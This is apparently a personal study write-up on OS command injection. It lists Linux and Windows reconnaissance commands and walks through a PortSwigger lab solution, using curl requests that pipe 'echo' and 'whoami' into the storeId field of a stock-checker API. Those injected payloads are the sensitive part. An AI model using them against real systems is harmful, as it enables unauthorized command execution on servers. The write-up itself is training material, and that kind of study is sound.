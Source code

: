 # OS command injection

OS command injection (also known as shell injection), allows an attacker to execute OS commands on a server. This typically leads to a full compromise of the server (and the application + data). If other systems are present in the network, OS command injection typically allows the attacker to furhter their campaign by compromising other parts of an organization / application infrastructure.

Some useful commands for Linux and Windows OS when OS inejction is found:

| Purpose of command | Linux | Windows |
| ----------- | ----------- |  ----------- |
| Name of current user | `whoami` | `whoami` |
| Operating system (and version) | `uname -a` | `ver` |
| Network configuration | `ifconfig` | `ipconfig /all` |
| Network connectios | `netstat -an` | `netstat -an` |
| Running processes | `ps -ef` | `tasklist` |

## Lab: OS command injection, simple case

**Lab Description**:  This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. To solve the lab, execute the whoami command to determine the name of the current user.

### Lab solution

The store queries a backend API for the stock data with the following link: `https://0ada005a030ef15f81ac7f0f00e000b3.web-security-academy.net/product/stock`. Furthermore, the request is sent as a POST request with the body containing: `productId=1&storeId=1`. Depending on how the data in the body is processed, we are able to inject OS commands, as described in the lab description. To verify, we perform a query with curl, to the URL with the echo command. The payload will be the following:

```bash
curl -X POST -d "productId=1&storeId=1|echo 'hej'" https://0ada005a030ef15f81ac7f0f00e000b3.web-security-academy.net/product/stock
hej
```

After trying different input, the API will return an error, if either product ID or store ID is not present. Therefore the echo command needs to be piped in order to execute. The following command will send the `whoami` command to the server and solve the lab:

```bash
curl -X POST -d "productId=1&storeId=1|whoami" https://0ada005a030ef15f81ac7f0f00e000b3.web-security-academy.net/product/stock
peter-BiwxkE
```
